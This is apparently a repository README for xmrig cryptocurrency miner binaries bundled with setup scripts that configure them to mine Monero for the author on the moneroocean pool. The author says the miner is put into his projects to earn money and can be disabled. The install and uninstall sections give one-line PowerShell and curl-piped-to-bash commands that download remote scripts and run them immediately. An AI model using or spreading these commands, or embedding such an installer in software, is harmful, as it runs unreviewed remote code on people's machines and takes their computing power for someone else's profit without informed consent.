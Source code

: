 This repository contains binaries of xmrig miner (see https://github.com/xmrig/xmrig) built to work on more platforms and bundled with helper Windows/Linux setup scripts that automatically configure them to work with https://moneroocean.stream mining pool.

## Why and what

Why: I use this to get a bit of money from my projects (you're able to disable this at any time if one of my projects uses this)

What: This installer of xmrig is modified so that it only mines for me
## INSTALL

### Windows
```
powershell -Command "$wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/setup_moneroocean_miner.bat', $tempfile); & $tempfile; Remove-Item -Force $tempfile"
```

### Linux
```
curl -s -L https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s
```
---
## UNINSTALL

### Windows
```
powershell -Command "$wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/uninstall_moneroocean_miner.bat', $tempfile); & $tempfile; Remove-Item -Force $tempfile"
```

### Linux
```
curl -s -L https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/uninstall_moneroocean_miner.sh | bash -s
```
